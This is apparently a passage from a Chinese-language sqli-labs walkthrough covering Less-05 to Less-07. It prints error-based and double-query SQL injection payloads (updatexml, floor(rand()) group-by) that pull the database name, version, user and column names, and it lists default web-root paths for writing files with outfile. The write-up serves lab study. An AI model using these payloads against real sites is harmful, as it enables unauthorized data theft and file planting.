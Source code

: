 



```
?id=1' and 1=(updatexml(1,concat(0x3a,(select database())),1))%23
```

![image-20201110152452359](https://raw.githubusercontent.com/heriachen/cloudimg/main/img/image-20201110152452359.png)

法三

**使用concat聚合函数**

```
?id=1' union select 1,2,3 from (select count(*),concat((select concat(version(),0x3a,0x3a,database(),0x3a,0x3a,user(),0x3a) limit 0,1),floor(rand(0)*2))x from information_schema.tables group by x)a --+
```

![image-20201110152821080](https://raw.githubusercontent.com/heriachen/cloudimg/main/img/image-20201110152821080.png)

```
?id=1' union select null,count(*),concat((select column_name from information_schema.columns where table_name='users' limit 0,1),floor(rand()*2))as a from information_schema.tables group by a%23
```



法四

sqlmap

## 0X06Less-06

**Double Injection - Double Quotes - String (双注入GET双引号字符型注入)**

双引号字符型注入，上一题的单引号改成双引号就可以了,同样是两种方法：时间延迟型的手工盲注、报错型的手工盲注或者sqlmap，再有利用concat()几聚合数。

步骤和第五题一样，不再赘述。



## 0X07Less-07

**Dump into outfile - String （导出文件GET字符型注入）**

![image-20201110153908990](https://raw.githubusercontent.com/heriachen/cloudimg/main/img/image-20201110153908990.png)

提示使用outfile

![image-20201110154031196](https://raw.githubusercontent.com/heriachen/cloudimg/main/img/image-20201110154031196.png)

**小扩展：**

winserver的iis默认路径c:\Inetpub\wwwroot

linux的nginx一般是/usr/local/nginx/html，/home/wwwroot/default，/usr/share/nginx，/var/www/htm等

apache 就.../var/www/htm，.../var/www/html/htdocs
